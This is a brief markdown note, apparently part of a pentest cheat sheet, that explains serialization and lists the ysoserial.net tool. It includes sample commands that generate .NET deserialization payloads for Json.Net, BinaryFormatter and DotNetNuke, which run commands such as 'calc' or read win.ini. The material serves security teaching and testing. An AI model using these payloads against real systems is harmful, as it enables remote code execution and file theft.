 # Serialization

### Notes
- Purpose is to convert a data structure into a format that can be stored or transmitted over a network link for future consumption.
- Involves a "producer" and a "consumer" of the serialized object. 
- E.g. An application can define and instantiate an arbitrary object and modify its state in some way. It can then store the state of that object in the appropriate format (for example a binary file) using serialization. As long as the format of the saved file is understood by the "consumer" application, the object can be recreated in the process space of the consumer and further processed as desired.
- There are various formats in which the serialized objects can be stored such as JSON and XML.

### .NET Serialization

**Tools**

* [pwntester/ysoserial.net - Deserialization payload generator for a variety of .NET formatters](https://github.com/pwntester/ysoserial.net)
```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

**Formatters**

![NETNativeFormatters.png](/img/dotnet-native-formatters.png?raw=true)    
